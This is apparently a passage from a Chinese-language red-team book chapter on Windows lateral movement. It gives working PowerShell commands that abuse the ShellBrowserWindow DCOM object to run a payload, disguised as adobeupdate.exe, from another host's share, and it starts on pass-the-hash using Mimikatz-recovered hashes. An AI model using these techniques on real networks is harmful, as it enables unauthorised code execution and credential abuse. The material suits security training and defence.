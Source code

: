 
![](img/chapter_4/4-36.png)

### 利用 DCOM 的横向移动

有许多方法可以在主机上进行单次横向移动。如果泄露的帐户具有访问权限，或者你能够使用捕获的凭据创建令牌，我们可以使用 WMI、PowerShell 远程命令执行或 PSExec 生成不同的 shell。如果这些执行命令的方法受到监控怎么办？我们通过使用分布式组件对象模型（DCOM）实现一些很酷的 Windows 功能。DCOM 是用于在不同远程计算机上的软件组件之间通信的 Windows 功能。

你可以使用 Powershell 命令列出计算机的所有 DCOM 应用程序：GetCimInstance Win32_DCOMApplication

![](img/chapter_4/4-37.png)

安全研究员 @enigam0x3 的研究发现（ https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/ ），有多个对象（例如 ShellBrowserWindow 和 ShellWindows ）允许在受害者主机上远程执行代码。当列出所有 DCOM 应用程序（如上图所示）时，你将看到一个 CLSI 为 C08AFD90-F2A1-11D1-845500A0C91F3880 的 ShellBrowserWindow 对象。识别出该对象后，只要我们的帐户有权访问，我们就可以利用此功能在远程工作站上执行二进制文件。

- powershell
- $([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“c:\windows\system32\calc.exe”)

这将只在系统本地执行文件，并且我们不能将任何命令行参数包含到可执行文件中（因此不能使用 cmd /k 类型的攻击）。相反，我们可以从远程系统调用文件并执行它们，但请注意，用户将收到警告的弹窗。在本例中，我目前在一个受害者的主机 neil.cyberspacekittens.local 上，该主机可以管理访问一个名为 buzz 的远程工作站。我们将在 Neil 的工作站上共享一个文件夹，并托管我们的 payload。接下来，我们可以调用 DCOM 对象在远程受害者（buzz）计算机上执行托管的 payload。

$([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-
00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“\neil.cyberspacekittens.local\Public\adobeupdate.exe”)

![](img/chapter_4/4-38.png)

正如你在下一张图片中看到的，Buzz 的计算机上出现了一个关于运行 adobeupdate.exe 文件的弹出窗口。虽然大多数用户都会点击并运行这个，但它可能会让我们被目标察觉。

![](img/chapter_4/4-39.png)

因此，避免这个问题的更好方法是在使用 DCOM 执行该文件之前将该文件移到上面（类似于装载受害者的驱动器）。@Enigam0x3对此做得更进一步，并利用 Excel 宏来使用 DCOM。首先，我们需要在自己的系统上创建恶意 Excel 文档，然后使用 [PowerShell 脚本](https://bit.ly/2pzJ9GX)在受害者主机上执行此.xls 文件。

需要注意的一点是，有许多其他的 DCOM 对象可以从系统中获取信息，可能会启动或停止服务等等。这无疑为进一步研究 DCOM 功能提供了很好的起点。

参考文献：

- https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
- https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
- https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### Pass-the-Hash

过去传递本地管理帐户 Pass-The-Hash（PTH）的方法在很大程度上已经开始消失。虽然还没有完全消失，但让我们快速回顾一下。PTH 攻击利用 Windows NTLM 哈希对系统进行身份验证，而不是使用用户的凭据。这是很重要的一点，首先，使用 Mimikatz 这样的工具可以很容易地恢复哈希，可以为本地帐户提取哈希（但需要本地管理员权限），可以从转储域控制器（不是明文密码）中恢复哈希（DCsync）等等。


PTH 最基本的用途是攻击本地管理员。由于默认情况下本地管理员帐户已被禁用，并且出现了更新的安全功能，例如本地管理员密码解决方案（LAPS），为每个工作站创建随机密码，因此通常很少使用上述这种方法。过去，在一个工作站上获取本地管理帐户的哈希值在整个组织中是可以用相同的方法实现的，这意味着一个易受攻击的方案会使整个公司破产。

当然，这要求你必须是系统上的本地管理员，启用本地管理员帐户“administrator”，并且它是 RID 500帐户（意味着它必须是原始管理员帐户，不能是新创建的本地管理员帐户）。
